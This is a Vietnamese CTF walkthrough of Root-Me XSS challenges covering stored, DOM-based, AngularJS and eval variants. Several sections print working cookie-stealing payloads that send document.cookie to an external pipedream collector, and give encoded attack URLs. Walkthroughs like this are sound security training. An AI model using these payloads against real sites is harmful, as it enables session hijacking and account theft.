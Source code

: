 # Trần Mạnh Huy

* [Chall 1:	XSS - Stored 1](#chall-1-xss---stored-1)
* [Chall 2: XSS - Stored 2](#chall-2-xss---stored-2)
* [Chall 3: XSS DOM Based - Introduction](#chall-3-xss-dom-based---introduction)
* [Chall 4: XSS DOM Based - AngularJS](#chall-4-xss-dom-based---angularjs)
* [Chall 5: XSS DOM Based - Eval](#chall-5-xss-dom-based---eval)
* [Chall 6: XSS - Reflected](#chall-6-xss---reflected)
* [Chall 7: XSS DOM Based - Filters Bypass](#chall-7-xss-dom-based---filters-bypass)
*
*


## Chall 1: Xss - Stored 1

```
Statement
Steal the administrator session cookie and use it to validate this chall.

```

Đây là 1 chall đơn giản về stored xss. Có 2 phần nhập title và message, gửi abcd ở cả 2 rồi check source bên burpsuite.
Có vẻ tiêm được script nên test luôn: <script>alert(1)</script>, và alert được, vậy thì triển tiếp thôi.

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_02.jpg)


Ý tưởng là ta sẽ lưu scipt cướp cookie ở form message và ngồi đợi thằng admin đến đọc cái message đó và bay màu.

Truyền payload vào message để lấy cookie: <script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".cocat(documemt.cookie)</script>

Ở đây dùng đường dẫn trên pipedream kết hợp với concat để nối thực hiện chuỗi, được server trả về kết quả:

![](https://github.com/manhhuy2002/hello-world/blob/main/ssrf_rootme/xss_03.jpg)


> Flag: _ga=GA1.1.73691999.1669083110


## Chall 2: XSS - Stored 2

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_01.jpg)

Vẫn như bài trước cho ta 2 phần nhập nhưng thêm 1 số tính năng, và giờ title và message đã bị encode html enities nên kh thực hiện xss được ở đây.

Nếu để ý kĩ, mình sẽ thấy giá trị cookie status=invite đang được hiện thị trên page và không bị fitler html entities. Ta có thể tận dụng ở đây để thực hiện xss

#### Payload: Cookie: status="><script>alert(1)</script>

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

Thực hiện alert thành công, tương tự như bài trước ta gửi payload:

> "><script>document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie)</script>

Ta nhận được cookie trả về :

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_03.jpg)

Có được cookie rồi ta ném vào ?section=admin để lấy flag

> COOKIE: status=invite;ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss2_04.jpg)

> FLag: E5HKEGyCXQVsYaehaqeJs0AfV

## Chall 3: XSS DOM Based - Introduction

```
Steal the admin’s session cookie.

```
Source:
```
<script>
var random = Math.random() * (99);
var number = '12';
if(random == number) {
    document.getElementById('state').style.color = 'green';
    document.getElementById('state').innerHTML = 'You won this game but you don\'t have the flag ;)';
}
else{
    document.getElementById('state').style.color = 'red';
    document.getElementById('state').innerText = 'Sorry, wrong answer ! The right answer was ' + random;
}
</script>

```

Ở đây ta đang có param number nhận input đầu vào, mình thử 1 số bất kì, và trang nó render như sau:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_01.jpg)

Đây là 1 chall đơn giản để giới thiệu về dom-based nên không có filter gì cả, ta sẽ chèn script mình vào thông qua cái param number và bởi vì nó là dom nên đoạn mã độc được sẽ được thực thi bởi đoạn Javascript phía client mà không cần server xử lý request:

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_02.jpg)

Thực hiện alert được rồi thì tấn công thôi:

>Script: '; document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c=".concat(document.cookie) ;//

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_03.jpg)

Gửi đường dẫn vào phần contact: http://challenge01.root-me.org/web-client/ch32/index.php?number=123%27%3B+document.location%3D%22https%3A%2F%2Feo7xxasp6lhfvaj.m.pipedream.net%2F%3Fc%3D%22.concat%28document.cookie%29+%3B%2F%2F

Ta được flag trả về:  

![](https://github.com/manhhuy2002/hello-world/blob/main/xss_rootme/xss3_04.jpg)

> flag: rootme{XSS_D0M_BaSed_InTr0}


## Chal 4: XSS DOM Based - AngularJS
```
Steal the admin’s session cookie.

```
Đạp vào mắt ta là 2 phần main và contact, 1 cái thì để xss còn cái còn lại là gửi cho con bot rồi. Triển thôi:

![]()

Đầu tiên phải alert được đã, đọc source:

```
   <p id="name_encoded">Result for  abcd:</p>
        <script>
            var name = ' abcd';
            var encoded = '';
            for(let i = 0; i < name.length; i++) {
                encoded += name[i] ^ Math.floor(Math.random() * name.length);
            }
            encoded = Math.abs(encoded ^ Math.floor(Math.random() * name.length));
            document.getElementById('name_encoded').innerText += ' ' + encoded;
        </script>
        
 ```

Cái ta cần bypass ở đây là truyền sao cho vượt qua được giá trị var name, ví dụ thành var name = '' ; alert(1) -- . Nhưng có vẻ ' bị mã hóa rồi.
Ta dùng script sau: 

```
{{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(97,108,101,114,116,40,49,41))()}}

```
>Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/XSS%20in%20Angular.md

![image](https://user-images.githubusercontent.com/104350480/218153267-ba81ca39-fbe3-4094-94a1-51de61b14277.png)

Sau khi alert được ròi thì ta làm tương tự như trên thôi, ta sẽ gửi đường link kèm theo payload xss và khi thằng admin truy cập vào thì payload sẽ được trigger dưới session của admin:

> Payload: 	
http://challenge01.root-me.org/web-client/ch35/?name={{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,101,111,55,120,120,97,115,112,54,108,104,102,118,97,106,46,109,46,112,105,112,101,100,114,101,97,109,46,110,101,116,47,63,99,61,34,46,99,111,110,99,97,116,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41))()}}

Được flag trả về:


![image](https://user-images.githubusercontent.com/104350480/218155614-d3be95db-d5b1-4df7-bcb3-a6e268a5df48.png)

>Flag: rootme{@NGu1@R_J$_1$_C001}

## Chall 5: XSS DOM Based - Eval

```
A bad practice ...
Steal the admin’s session cookie.

```

Tiếp tục là chall về xss, bài này có liên quan đến hàm eval, ta cần nhập 1 phép tính, nếu kh sẽ kh thực hiện được

![image](https://user-images.githubusercontent.com/104350480/218157778-248d5be0-644e-4639-890f-f89f81ae2434.png)

![image](https://user-images.githubusercontent.com/104350480/218158292-9f278129-789a-4dc1-ba15-0082eea0a011.png)

Xem qua source code thì có vẻ ta cần bypass qua hàm eval là xong chall này, ngoài ra kh thể sử dụng () vì đã bị liệt vào blacklist

![image](https://user-images.githubusercontent.com/104350480/218158578-3ebbc272-495d-40f3-8ac6-77c79bcab51f.png)

![image](https://user-images.githubusercontent.com/104350480/218159000-894d3387-bc3e-4591-938f-f50fcfb8993e.png)


Mục tiêu đầu tiên vẫn phải là alert đã, nhưng có 1 cái ta có thể chú ý:

![image](https://user-images.githubusercontent.com/104350480/218159511-3d90e8ec-bd2c-46e1-803e-be32a1c94d8b.png)

Đúng vậy, regex chỉ yêu cầu 1 phép tính là được + - * / giữa 2 số là được, kh dùng được () nên tấn công luôn:

```

Payload: 1+1, document.location="https://eo7xxasp6lhfvaj.m.pipedream.net/?c="+document.cookie 
Gửi qua contact: http://challenge01.root-me.org/web-client/ch34/?calculation=1%2B1%2C+document.location%3D%22https%3A%2F%2Feo7xxasp6lhfvaj.m.pipedream.net%2F%3Fc%3D%22%2Bdocument.cookie

```

![image](https://user-images.githubusercontent.com/104350480/218165627-02281d8d-64fc-4ab1-9c1a-e0b6711aef66.png)

> Flag: rootme{Eval_Is_DangER0us}

## Chall 6: XSS - Reflected
```
Find a way to steal the administrator’s cookie.
Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.

```

Mở đầu với giao diện trang khá đẹp,

![image](https://user-images.githubusercontent.com/104350480/218168170-5d2f71db-e72e-4d4d-b04b-f010c9b4abc3.png)


## Chall 7: XSS DOM Based - Filters Bypass

## Chall 8: XSS - Stored - filter bypass

## Chall 9: XSS - DOM Based
